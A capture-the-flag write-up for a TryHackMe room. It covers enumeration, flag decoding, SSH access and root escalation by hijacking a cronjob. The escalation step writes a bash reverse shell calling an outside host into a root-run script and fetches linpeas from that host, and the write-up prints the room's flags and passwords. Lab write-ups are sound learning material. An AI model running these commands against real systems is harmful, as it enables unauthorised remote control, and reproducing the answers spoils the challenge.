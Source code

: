 ### [Challenge](https://tryhackme.com/room/easypeasyctf)

# IP:  10.10.176.242

- # ENUM
	- ## NMAP (```nmap -sV -p- -T5 10.10.90.150```)
		- ```PORT      STATE SERVICE VERSION
			80/tcp    open  http    nginx 1.16.1
			65524/tcp open  http    Apache httpd 2.4.43 ((Ubuntu))```
			- (there should be another one, ssh at 6498)
	- ## GOBUSTER (```gobuster dir -w /usr/share/seclists/Discovery/Web-Content/common.txt -u 10.10.90.150:65524```)
		- `/hidden`
			- `/whatever` --> `ZmxhZ3tmMXJzN19mbDRnfQ==
		- `/index.html` --> `ObsJmP173N2X6dOrAgEAL0Vu`
		- `/robots.txt` --> `a18672860d0510e5ab6699730763b250`


- # FIND FLAGS
	-  `ZmxhZ3tmMXJzN19mbDRnfQ==` --> base64 --> `flag{f1rs7_fl4g}`
	- `a18672860d0510e5ab6699730763b250` --> md5 --> `flag{1m_s3c0nd_fl4g}`
	- `ObsJmP173N2X6dOrAgEAL0Vu` --> base62 --> `/n0th1ng3ls3m4tt3r`
	- `940d71e8655ac41efb5f8ab850668505b86dd64186a66e57d1483e7f5fe6fd81` -> GOST  -> `mypasswordforthatjob`
	- `steghide extract -sf binarycodepixabay.jpg` -> secrettext.txt
		- username: boring
		  password:
			01101001 01100011 01101111 01101110 01110110 01100101 01110010 01110100 01100101 01100100 01101101 01111001 01110000 01100001 01110011 01110011 01110111 01101111 01110010 01100100 01110100 01101111 01100010 01101001 01101110 01100001 01110010 01111001 -> `iconvertedmypasswordtobinary`

- # PRIVILEGE ESCALATION
	1. Connect via SSH (`ssh boring@10.10.176.242`)
	2.  `synt{a0jvgf33zfa0ez4y}` --> caesar cypher --> `flag{n0wits33msn0rm4l}`
	3. Use linpeas.sh (host python server -> `wget http://10.9.2.87:8000/linpeas.sh` --> `chmod +x linpeash.sh` -> `./linpeas.sh`)
	4. Sus cronjob found: `* *    * * *   root    cd /var/www/ && sudo bash .mysecretcronjob.sh`
	5. Edit `.mysecretcronjob.sh`:  
	   ``` bash
		#!/bin/bash
		bash -i >& /dev/tcp/10.9.2.87/9999 0>&1
		```
	6. Set your machine on listening (`sudo nc -lvnp 9999`)
	7. `cat /root/.root.txt` --> `flag{63a9f0ea7bb98050796b649e85481845}`
